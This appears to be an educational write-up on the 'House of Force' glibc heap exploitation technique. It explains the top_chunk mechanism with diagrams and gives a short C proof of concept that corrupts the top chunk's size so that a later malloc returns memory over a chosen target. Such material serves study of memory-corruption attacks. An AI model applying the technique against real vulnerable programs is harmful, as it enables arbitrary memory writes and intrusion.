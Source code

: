 # House of Force
> LongChampion, 18/03/2020

Finally, I have found an attack that can "break" the top_chunk.

## What is top_chunk?
When your program call first *malloc function*, some kernel function (such as `brk` and `sbrk`) is called to change the `program_break` and give your program a heap segment. In most case, the initial heap segment is much larger than your request size. Because your allocated chunk only mamages the memory belong to it, top_chunk is created to manage the remaining memory of heap segment.  
For example, if you call `malloc(0x100)` and the program heap segment is [0x603000 - 0x624000], then the memory layout will be:
```
    + - - - - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - +
    |    your chunk     |                      top_chunk                      |
    |    size: 0x110    |                    size: 0x20ef0                    |
    + - - - - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - +
    ^                   ^                                                     ^
    |                   |                                                     |
0x603000            0x603110                                              0x624000
```
This is very easy to understand, isn't it? Please remember that although your request size is 0x100, the size of returned chunk is actually 0x110 because of padding and chunk header.  
The top_chunk mechanism is very simple: when you allocate a new (small enoungh) chunk, top_chunk is split into two chunks, ones is returned to you and the remainning becomes the new top_chunk.
```
    + - - - - - - + - - - - - - - - - - - - - - - - - - - - - - - - - - - - - +
    | your chunk  |                         top_chunk                         |
    + - - - - - - + - - - - - + - - - - - - - - - - - - - - - - - - - - - - - +
    | your chunk  | new chunk |                 new top_chunk                 |
    + - - - - - - + - - - - - + - - - - - - - - - - - - - - - - - - - - - - - +

```

## The attack
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

char SECRET[] = "This is the top secret!";

int main()
{
    void *first = malloc(0x100 - 8);

    struct Chunk *top_chunk = (struct Chunk *) (first + 0x100 - 0x10);
    top_chunk->size = -1;

    long long padding_size = (long long) &SECRET - 0x10 - (long long) top_chunk;
    void *padding = malloc(padding_size - 8);
    void *REWARD = malloc(0x100 - 8);
}
```
First, we need call `malloc` once to create top_chunk. Then, we overwrite top_chunk's size to a very big value (I use -1). Next, we calculate `padding_size`: the distance between top_chunk and our target chunk. Finally, we call `malloc(padding_size)` to move our top_chunk to target chunk and call `malloc` one more time to complete the attack.

### Note
- "-1 is a very big value?". If you know how computer store integer in memory and chunk size is always consider as unsigned, you will recognize that is really TRUE.
- Our target can be any memory address, but be careful if your target is on the stack or in the segment that don't have write permission. Try to attack on those can crash your program because `malloc` will modify some pointer of top_chunk when moving it and smash your stack frame or violate segment's permission.
- The target chunk is begin at offset 0x10 before target address (this is the reason why we need operand `-0x10` when calculate `padding_size`)
- In some case, the attack can't be perform because `padding_size` is not a valid chunk size (does not divide by 0x10 in x64 system or 0x8 in x86 system)

